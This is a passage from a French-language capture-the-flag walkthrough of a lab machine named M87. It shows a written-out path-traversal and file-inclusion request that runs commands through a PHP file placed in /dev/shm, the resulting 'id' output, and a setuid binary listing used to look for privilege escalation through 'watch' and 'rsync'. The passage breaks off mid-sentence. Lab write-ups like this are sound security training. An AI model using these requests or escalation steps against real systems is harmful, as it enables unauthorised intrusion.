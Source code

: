 Je peux alors obtenir mon exécution de commande de cette façon :

```
http://192.168.56.223/admin/backup/index.php?cmd=id&file=x/../../../../../dev/shm/cmd.php
```

Ce qui me donne :

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## People I used to know just don't know me no mo'

Je remarque deux binaires officiels sous Linux qui n'ont d'habitude pas le bit setuid, il s'agit de `rsync` et `watch` :

```console
www-data@M87:/$ find / -type f -perm -u+s -ls 2> /dev/null
    23577    380 -rwsr-xr--   1 root     dip        386792 Feb 20  2020 /usr/sbin/pppd
    22830   1308 -rwsr-xr-x   1 root     root      1335944 Sep 26  2020 /usr/sbin/exim4
     6281     28 -rwsr-sr-x   1 root     root        27048 May 31  2018 /usr/bin/watch
       55     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
       52     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
    19205    156 -rwsr-xr-x   1 root     root       157192 Feb  2  2020 /usr/bin/sudo
    20671    492 -rwsr-sr-x   1 root     root       500088 Mar 15  2019 /usr/bin/rsync
     3583     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
       53     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
    21391    152 -rwsr-xr-x   1 root     root       154352 Mar 21  2019 /usr/bin/ntfs-3g
    18938     36 -rwsr-xr-x   1 root     root        34896 Apr 22  2020 /usr/bin/fusermount
       56     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
     3908     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
     3436     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
    21241     24 -rwsr-xr-x   1 root     root        23288 Jan 15  2019 /usr/bin/pkexec
     3910     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
   136894     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    12760     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    21244     20 -rwsr-xr-x   1 root     root          18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    21747     52 -rwsr-x---   1 root     cockpit-wsinstance    52368 Oct  2  2020 /usr/lib/cockpit/cockpit-session
    16143    428 -rwsr-xr-x   1 root     root                 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
```

`watch` est un programme qui exécute une commande en boucle et affiche son output. Pratique si vous voulez surveiller l'apparition d'un fichier avec `ls`.

Seulement si j'exécute `watch id` je remarque que l'effective UID est droppé :  `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Cela est dû à l'utilisation de bash pour exécuter la commande comme mentionné dans la page de manuel :
